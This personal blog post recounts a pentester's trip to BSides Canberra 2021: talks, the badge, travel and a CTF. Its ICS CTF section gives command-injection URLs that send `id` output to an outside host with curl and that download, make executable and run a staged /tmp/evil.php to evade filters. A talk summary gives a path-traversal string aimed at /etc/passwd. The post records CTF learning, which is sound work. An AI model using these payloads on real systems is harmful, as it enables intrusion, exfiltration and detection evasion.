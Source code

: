 ```yaml
---
layout: post
date: 2021-04-10
categories: ['life']
published: true
title: Bsides Canberra 2021
---
```


## A change in perspective :cowboy_hat_face:
It really is a surreal experience attending the conference from the standpoint of someone who is currently working in the industry.  

![ctf-go-brrrrrrrt](/assets/images/bsides21-ctfroom.jpg)  
Only a few years ago, I was the penultimate-year uni student who was trying to prove their worth in a rapidly advancing industry.

Now that I have finally set foot in it, there is a feeling of calmness --- :wind_chime:

Instead of focusing on maximizing the value gained from the conference :disappointed_relieved:  
I decided this time to just catchup with old friends instead :beers:  

<br/>

## The badge :beginner:

Honestly? I never inspected the badge contents once during the conference.  
Not even now, as I'm writing this one week post-conference.  

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">A big shout out to the volunteers at <a href="https://twitter.com/PentenCyber?ref_src=twsrc%5Etfw">@PentenCyber</a> who fought through a busy time at work and a global parts shortage to deliver the <a href="https://twitter.com/BSidesCbr?ref_src=twsrc%5Etfw">@BSidesCbr</a> badge to the community with the support of our friends at GME and <a href="https://twitter.com/4design_news?ref_src=twsrc%5Etfw">@4design_news</a> to make the badge in Sydney <a href="https://twitter.com/hashtag/madeinaustralia?src=hash&amp;ref_src=twsrc%5Etfw">#madeinaustralia</a> <a href="https://t.co/PNAffZt17R">pic.twitter.com/PNAffZt17R</a></p>&mdash; Penten (@PentenCyber) <a href="https://twitter.com/PentenCyber/status/1380289053120024580?ref_src=twsrc%5Etfw">April 8, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

> If you were involved in the badge making team, I respect all the blood,sweat and tears you've put in. But seriously, the design is not ergonomic or intuitive at all!

I definitely wasn't alone in this opinion as well:
- The badge was heavy and clunky compared to previous years
- The on switch _(yes you read that right)_ couldn't be reached with your bare hands as it was indented into the badge

Then again, I am probably just a whiny pentester who doesn't know shit about hardware hacking and thus can't appreciate the full value of the badge. :man_shrugging:  
This [blog post](https://mosandboo.com/bsides-cbr-2021-badge-hacking-part-1/){:target="_blank"} looks cool though!

<br/>

## The talks :speaking_head:

Here are the talks that I was most interested in:
[\[Scroll til **"Main Track"**\]](https://web.archive.org/web/20210401021357/https://www.bsidesau.com.au/speakers.html){:target="_blank"}  
some I watched; others I'll have to wait til the recording comes out... 

|Title | Author(s) | Why I watched/will watch|
|:-----|:----------|:--------------------------|
|:biohazard: The <br/>Security<br/> of <br/>Emojis :biohazard:|Adrian Justice|Thought it would be interesting, turned out it was a funny (but filler) presentation, still a good watch and reinforces the ideal of always challenging developers' assumptions|
|Easy LPEs and <br/>common software <br/>vulnerabilities|Christopher Vella|Haven't watched yet but heard its good, especially for those heading down the vuln research path!|
|The defender's new clothes|Eldar Marcussen|(see below)|
|13 Nagios Vulnerabilities, <br/>#7 will SHOCK you!|Samir Ghanem|(see below)|
|Context Aware Content Discovery: The Natural Evolution|Assetnote|(see below)|
|Understanding Real Threats for <br/>Real Security|Shane Hutley|Haven't watched yet but recommended by few other people so will watch|
 
<br/>  

#### My takeaways :alembic:  

<u>The defenders new clothes</u>:
- I really enjoyed Eldar's casual style of presentation, as though he is simply talking to himself on stage :snowflake: :cucumber:  
- The interesting tadeoff between using string-based pattern matching and regex-based pattern matching in WAFs:
  - One brings the risk of WAF Denial of Service due to malicious regex
  - The other has an inherent risk of false negatives ie. bypasses  
- Using a few of his tools: [`travesty`](https://github.com/wireghoul/traversty){:target="_blank"}, [`PHP-omelette`](https://github.com/wireghoul/php-omelette){:target="_blank"} and so on... its possible to bypass WAFs or detection tools
- Never underestimate the power of a good `//.///..//..///..///etc/passwd` :wink:

<u>NagiOS vulnerabilities</u>:
- It gives me hope that vuln research is still alive and kicking, and that I should really get into it sometime!
- Never make assumptions about how the security of applications, despite the reputation of an org
- I really should look at NagiOS or other similar products to find CVEs in...

<u>Context Aware Asset Discovery</u>:
- I really love what AssetNote is doing at the moment, even though they are a small team, they are creating tools that larger firms would not be able to produce
- I think its also largely due to their business model being innovative and pushing the boundaries of what we think is possible
- What really makes them amazing is they care about the infosec community and always open source their tools and data for everyone to use, which is really heartwarming to say the least :blush:
- Big props to @sean who spent two months researching and building Kiterunner, I can see it being used as part of API testing in legit jobs, as well as by bounty hunters to find more obscure endpoints!!! Truly a great gift to all web-based researchers out there :gift:  

<br/>

---

<br/>


## Industrial Control Systems (ICS) CTF :factory:

I decided to play in this one because it was a good refresher exercise for OSCP/HTB-style challenges which resemble real-world scenarios:

> Long-story-short: After playing, failing, and ultimately running out of time,  I learnt the following new techniques:  :bulb:

<u>WordPress challenge:</u>
- When using `WPScan`, sometimes it might be worth using **_aggresive mode_** or you might miss the one plugin you need for the foothold

<u>Command Injection challenge:</u>
- Apparently you can actually abuse the `-p pattern` in `ping` command during command injection to exfiltrate 16 bytes of data at a time :sparkles:
- Instead of trying to execute commands within the command itself, ie:
  ```bash
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(curl%2010.19.0.205?`id`)
  ```  

  One could instead opt to execute a staged-payload of sorts, <br/>to avoid triggering filters/detections:
  ```bash
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(curl%2010.19.0.205/data.txt%20>%20/tmp/evil.php)
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(chmod%20711%20/tmp/evil.php)
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(php%20/tmp/evil.php)
  # Altogether in three steps: curl 10.19.0.205/data.txt > evil.php; chmod 711 /tmp/evil.php; php /tmp/evil.php
  ```






<br/>


## My accomodation :hotel:

- Thanks Privasec for paying for the hotel!
  - The room was much larger than I expected, almost like an apartment!
  - they even had a pool (I swam in it as well one night :swimming_man:)  
  - It came with a kitchen setup which is great as I could prepare meals

![pool](/assets/images/bsides21-pool.jpg)

<br/>

## Sydney :repeat: Canberra flights :airplane:

Again, thanks Privasec for sponsoring my to/fro flights :grin:
This was my first time taking a plane from Sydney to Canberra:
- I felt like I waited at the airport (starting from gate opening) longer than the flight itself!
- 30 mins for everyone to board and take off, another 30 mins in the air
- It was a **QantasLink Dash 8 Q400** airplane, with propellers on each side and only two seats per side :hushed: 

![dash-flight](/assets/images/bsides21-dash.jpg)

<br/>

## Catchups/New friendships :busts_in_silhouette:

It was great to catch up with all my friends from various places such as:
- UNSW Security Society
- current Privasec colleagues
- ex-HackLabs colleagues
- ex-Pure Security colleagues
- other connections from Sydney/Melbourne

I also met new people from other penetration testing firms and also other student societies!  

Also, I played this game at the Token Barcade and it was quite fun:  

{:refdef style="text-align: center;"}
![buckhunt](/assets/images/bsides21-buckhunt.jpg)
{:refdef}
<br/>



